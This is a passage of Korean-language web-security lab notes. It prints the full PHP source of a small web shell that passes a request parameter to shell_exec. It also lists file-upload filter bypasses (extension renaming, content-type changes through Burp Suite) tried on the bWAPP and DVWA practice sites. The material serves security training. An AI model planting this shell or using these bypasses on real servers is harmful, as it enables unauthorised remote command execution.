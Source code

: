 #### simple_cmd.php 코드

<html>
<head>
<title>G-Security Webshell</title>
</head>

<body bgcolor=#000000 text=#ffffff ">
<form method=POST>
<br>
<input type=TEXT name="-cmd" size=64 value="<?=$cmd?>" 
style="background:#000000;color:#ffffff;">
<hr>
<pre>
<? $cmd = $_REQUEST["-cmd"];?>
<? if($cmd != "") print Shell_Exec($cmd);?>
</pre>
</form>
</body>
</html>

#### metasploit 코드생성

![](assets/img/정보보안/실습/W_3-4.jpg)

### 실습

#### BWAPP 사이트

- medium
  1. php -> php3로 바꿔서 업로드
  2. 버프스위트로 콘텐츠 타입 변경
  3. 확장자를 .jpg로 변경
  4. URL 인코딩 (업로드는 되나 실행 실패)

#### DVWA 사이트
